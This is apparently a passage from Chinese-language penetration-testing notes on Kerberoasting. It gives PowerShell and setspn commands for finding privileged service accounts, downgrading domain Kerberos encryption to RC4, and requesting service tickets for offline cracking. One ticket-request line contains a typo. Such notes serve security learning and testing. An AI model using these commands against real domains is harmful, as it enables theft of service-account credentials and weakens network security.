 进行 Kerberoast 攻击时，需要注意以下几点因素：

- 目标 SPN 服务是注册在域用户账户(Users)下
- 域用户账户的权限很高
- 密码最后设置时间
- 密码到期时间
- 最后一次登录时间
    ```
    net user administrator /domain  可查看
    ```

攻击者最感兴趣的是具有高权限用户组的服务帐户如域管理员组的成员。要快速列出高权限用户组的服务帐户的方法是枚举“AdminCount” 属性等于“1”的所有帐户。攻击者只需要向 AD 请求具有 SPN 且 AdminCount = 1 的所有用户帐户。

使用 Active Directory powershell 模块（域控制器一般会安装）中的 Get-ADUser cmdlet：
```powershell
import-module ActiveDirectory
get-aduser -filter {AdminCount -eq 1 -and (servicePrincipalName -ne 0)} -prop * |select name,whencreated,pwdlastset,lastlogon
```

对于没有安装的系统，可以通过以下命令导入 Active Directory 模块:
```powershell
import-module .\Microsoft.ActiveDirectory.Management.dll
```

Microsoft.ActiveDirectory.Management.dll 在安装 powershell 模块 Active Directory 后会生成，直接在域控上环境就能扣出来

使用 gpedit.msc 将域控上的组策略管理编辑器打开,`计算机配置-->Windows设置-->安全设置-->安全选项-->"网络安全: 配置 Kerberos 允许的加密类型"`，配置 Kerberos 的加密类型为 RC4，并运行 gpupdate 更新策略

**导出**

- https://github.com/nidem/kerberoast

使用 Kerberoast 中的 GeUserSPNs 进行扫描：
```bash
setspn.exe -q */*

# 或
.\GetUserSPNs.vbs
```

根据微软提供的类 KerberosRequeststorSecurityToken 发起 Kerberos 请求申请票据, 请求指定的 ST 票据:
```bash
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-ffffffff0x.ffffffff0x.com:1433"

# 或请求全部票据
setspn.exe -T ffffffff0x.com -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.Post Context[0].Trim() }
```

使用 klist 命令查看当前会话存储的 Kerberos 票据：
```bash
klist
```
